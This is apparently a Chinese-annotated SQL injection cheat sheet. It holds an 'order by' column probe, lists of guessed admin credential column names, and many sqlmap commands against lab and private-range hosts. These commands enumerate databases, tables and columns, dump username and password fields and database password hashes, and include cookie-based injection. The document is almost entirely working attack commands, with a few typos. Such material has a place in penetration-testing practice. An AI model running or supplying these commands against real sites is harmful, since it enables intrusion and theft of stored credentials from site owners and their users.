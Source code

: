 asp?id=1142 order by 22
			 
name、username、user_name、admin、 adminuser、admin_user、admin_username、adminname


password、pass、userpass、user_pass pwd userpwd adminpwd admin_pwd
		
---
	
###sqlmap

sqlmap -u http://192.168.1.100/Less-1/?id=1

sqlmap -u https://192.168.1.100/Less-1/?id=1 --force-ssl

sqlmap -u http://192.168.1.100/Less-1/?id=1 --dbs

sqlmap -u http://192.168.1.100/Less-1/?id=1 --current-db 当前使用哪个数据库	

sqlmap -u http://192.168.1.100/Less-1/?id=1 --current-user 当前使用数据库使用用户

sqlmap -u http://192.168.1.100/Less-1/?id=1 --current-dba  是否是数据库管理员

sqlmap -u http://172.28.31.117/Production/PRODUCT_DETAIL.asp?id=1406 --tables 爆表

sqlmap -u http://172.28.31.117/Production/PRODUCT_DETAIL.asp?id=1406 --tables -D "admin" 指定数据库 

sqlmap -u http://172.28.31.117/Production/PRODUCT_DETAIL.asp?id=1406 --columns -T  "admin" -D  "data" 指定数据库中表名的字段
sqlmap -u http://172.28.31.117/Production/PRODUCT_DETAIL.asp?id=1406 --dump -C  "username,password" --columns -T 
"admin" -D  "data" 指定数据库中表名的字段
			
sqlmap -u http://192.168.1.100/Less-1/?id=1 -D security --tables

sqlmap -u http://192.168.1.100/Less-1/?id=1 -D security -T users --columns
sqlmap -u http://192.168.1.100/Less-1/?id=1 -D security -T users -C password,username --dump

sqlmap -u http://192.168.1.100/Less-1/?id=1 --users

sqlmap -u http://192.168.1.100/Less-1/?id=1 --passwords

sqlmap --version	
http://172.28.31.117/Production/PRODUCT_DETAIL.asp?id=1406 --tables

sqlmap -u http://172.28.31.117/Production/PRODUCT_DETAIL.asp?id=1406 --cloumns -T "manager_user"

sqlmap -u http://172.28.31.117/Production/PRODUCT_DETAIL.asp?id=1406 --dump -C "username,passowrd"  -T "manager_user"

---
		
###cookie
 sqlmap -u "http://172.28.31.117/Production/PRODUCT_DETAIL.asp" --cookie "id=1140"  --level 2 --tables
 
sqlmap -u "http://172.28.31.117/Production/PRODUCT_DETAIL.asp"  --cookie "id=1141"   --columns -T admin --level 2

sqlmap -u "http://172.28.31.117/Production/PRODUCT_DETAIL.asp"  --cookie "id=1141"    --dump -T admin -C
 "admin,password" --level 2
			